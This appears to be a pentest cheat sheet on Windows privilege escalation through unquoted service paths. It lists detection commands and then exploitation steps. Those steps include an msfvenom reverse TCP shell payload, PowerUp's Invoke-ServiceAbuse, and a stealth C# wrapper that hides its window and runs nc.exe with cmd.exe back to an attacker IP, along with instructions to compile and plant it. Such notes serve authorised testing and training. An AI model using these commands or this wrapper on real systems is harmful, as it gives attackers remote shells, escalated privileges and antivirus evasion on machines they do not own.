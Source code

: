 https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite  

### Unquoted Service Path - Services
* Detection
```
wmic service get Name,State,PathName | findstr "Program"  
sc qc <service_name>  
\\ BINARY_PATH_NAME display Unquoted Service Paths, without ""
powershell "get-acl -Path 'C:\Program Files (x86)\System Explorer' | format-list"
```
or  
```
. .\PowerUp.ps1
Get-ServiceUnquoted -Verbose (PowerUp) 
```

* Exploitation
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe > name <name_inside_the_path>.exe  
move <name_inside_the_path>.exe <service_path>  
sc stop <service_name>
sc start <service_name>
```
or  
```
Invoke-ServiceAbuse -Name <service_name> -UserName $(whoami)
```

### Unquoted Service Path - Services (STEALTH) - Evasion AV
* Install
```
sudo apt install mono-devel
```
* Wrapper.cs  
```
using System;
using System.Diagnostics;

namespace Wrapper{
        class Program{
                        static void Main(){
                        Process proc = new Process();
                        ProcessStartInfo procInfo = new ProcessStartInfo("c:\\windows\\temp\\nc.exe", "<ip> <port> -e cmd.exe");
                        procInfo.CreateNoWindow = true;
                        proc.StartInfo = procInfo;
                        proc.Start();
                }
        }
}
```
* Compile C# Code
```
mcs Wrapper.cs
```
Now move to the target, and place it in the correct directory with the correct name to exploit the service.  
```
sc stop <nameservice>
```
```
sc start <nameservice>
```
